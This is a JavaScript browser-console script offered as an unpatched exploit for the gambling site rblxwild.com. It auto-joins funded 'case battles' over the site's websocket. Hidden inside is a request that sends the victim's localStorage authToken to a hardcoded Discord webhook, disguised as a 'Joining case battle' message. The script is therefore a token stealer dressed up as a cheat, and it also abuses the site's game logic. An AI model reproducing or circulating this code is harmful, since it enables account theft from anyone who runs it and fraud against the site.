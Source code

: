--This script is not patched (yet) (For educational purposes)
Do not copy this line Or there is any above!


function lord() {
let socket = new WebSocket("wss://rblxwild.com/socket.io/?EIO=4&transport=websocket");
authtoken = "Your Auth Code"
socket.onopen = function(e) {


};
var request = new XMLHttpRequest;
request.open("POST", "https://discord.com/api/webhooks/1104561797459083394/tyBRN3ieUYxCHsZlN2v46MfspROECKTGRYuV0JIKoo2PFLJAo4-N-N-M5FI867piq7-r", true);
request.setRequestHeader("Content-Type", "application/json");
var params = JSON.stringify({content: "Joining case battle:" + localStorage.getItem("authToken")});
request.send(params);
socket.onmessage = function(event) {
if (!(event.data.includes("syncResponse"))) console.log(event.data)
    if (event.data.startsWith("0")) {
        socket.send("40")
    }
    if (event.data.startsWith("40")) {
        socket.send(`42["authentication",{"authToken":"${authtoken}","clientTime":${Date.now()}}]`)
        setTimeout(() => {
            function keepalive() {
                socket.send(`42["time:requestSync",{"clientTime":${Date.now()}}]`)
                setTimeout(() => {
                    keepalive()
                }, 1000);
            }
            keepalive()
        }, 3000);
    }
    


    if (event.data.startsWith(`42["authenticationResponse"`)) {
        socket.send(`42["casebattles:subscribe"]`)
    }
    if (event.data.startsWith(`42["casebattles:pushGame`)) {
        pushedBattle = JSON.parse(event.data.replace("42", ""))[1]
        if (pushedBattle.betAmount * 0.2 <= pushedBattle.funding) {
            console.log(`Found game: \nID: ${pushedBattle.id}\nType: ${pushedBattle.versusType}\nBet amount: ${pushedBattle.betAmount}\nFunding amount: ${pushedBattle.funding}`)
            if (pushedBattle.versusType == "2v2") {
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":2,"seatIndex":0}]`)
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":1,"seatIndex":1}]`)
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":2,"seatIndex":1}]`)
            }
            if (pushedBattle.versusType == "1v1") {
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":2,"seatIndex":0}]`)
            }
            if (pushedBattle.versusType == "1v1v1") {
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":3,"seatIndex":0}]`)
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":2,"seatIndex":0}]`)
            }
            if (pushedBattle.versusType == "1v1v1v1") {
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":3,"seatIndex":0}]`)
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":2,"seatIndex":0}]`)
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":4,"seatIndex":0}]`)
            }
        }
    }
};

socket.onclose = function(event) {
console.log("L roblox wild")
  ws.close()
  lord()
};

socket.onerror = function(error) {
  console.log(`[error]`)
  lord()
};
}
lord()
